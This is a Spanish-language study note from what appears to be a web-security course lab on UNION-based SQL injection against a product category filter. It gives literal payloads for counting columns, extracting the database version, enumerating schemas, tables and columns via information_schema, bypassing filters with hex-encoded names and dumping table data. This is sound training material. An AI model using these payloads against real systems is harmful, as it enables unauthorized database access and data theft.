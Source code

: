 En esta clase aplicamos una inyección SQL con UNION para extraer la versión del motor de base de datos, esta vez sobre sistemas como MySQL o Microsoft SQL Server.

La vulnerabilidad está en el filtro de categoría de productos. Al interceptar la solicitud y modificar el parámetro ‘category’, podemos inyectar una consulta adicional que devuelva el valor del sistema.

El proceso consiste en:

- Interceptar la solicitud con Burp Suite y probar distintas combinaciones hasta determinar el número de columnas que devuelve la consulta y cuáles aceptan texto. En este caso, son dos columnas de texto.
- Una vez identificadas, se usa la función ‘**@@version**‘, propia de MySQL y SQL Server, para extraer información del motor y su versión.
- El símbolo ‘**#**‘ se utiliza como comentario para anular el resto de la consulta original.

Esta técnica demuestra cómo, con una inyección bien construida, es posible reconocer el entorno sin necesidad de credenciales o acceso especial.

**Quédate con esto**: Conocer el motor de base de datos desde fuera es el primer paso para afinar futuras inyecciones y adaptar payloads según el sistema objetivo.

![[Pasted image 20250702150520.png]]
Solucion
Primero visualizar cuantas columnas hay ' order by (el numero de mayor a menor)
![[Pasted image 20250702151029.png]]
luego toca jugar con union select para visualizar la version ' union select 1,@@version-- -
![[Pasted image 20250702151254.png]]
despues para enumerar las bases de datos ponemos lo siguiente ' union select 1,schema_name from information_schema.schemata-- -
![[Pasted image 20250702151806.png]]
en caso de que diera error es por que puede ser que tenga mucha informacion por lo que tenemos que poner limites
' union select 1,schema_name from information_schema.schemata limit 0,1-- - y tocaria jugar con el primer numero para que nos empiece a enumerar las BD (importante en esto se hiso con pets necesitamos quitarlo para que iterara por todos los pots)
![[Pasted image 20250702152205.png]]
y para enumerar las tablas en una unica base de datos ' union select NULL,group_concat(schema_name) from information_schema.schemata-- - y modificamos con group concat para que no la mueste todas y quitar limit
![[Pasted image 20250702153247.png]]
entonces para mostrar todas las tablas lo mejor seria utilizar un peticion con GET
![[Pasted image 20250702153757.png]]y para que sea para una BD en especifico ponemos lo siguiente ' union select NULL,table_name from information_schema.tables where table_schema="academy_labs"-- -
![[Pasted image 20250702154236.png]]
en caso de que no funcione por temas de sanitizacion podemos probar con la cadena en hexadecimal
![[Pasted image 20250702154431.png]]
y esto lo ponemos siempre poniendo primero 0x (0x61636164656d795f6c616273) obtenemos el mismo resultado
![[Pasted image 20250702154810.png]]
ahora si quisieramos enumerar las columnas ' union select NULL,column_name from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![[Pasted image 20250702155107.png]]
En caso de que no mostrar todos los datos hay que jugar con group_concat
' union select NULL,group_concat(column_name) from information_schema.columns where table_schema=0x61636164656d795f6c616273 and table_name='products'-- -
![[Pasted image 20250702155401.png]]
y para mostar los datos de la tabla ' union select NULL,group_concat(category,':') from academy_labs.products-- -
![[Pasted image 20250702160100.png]]
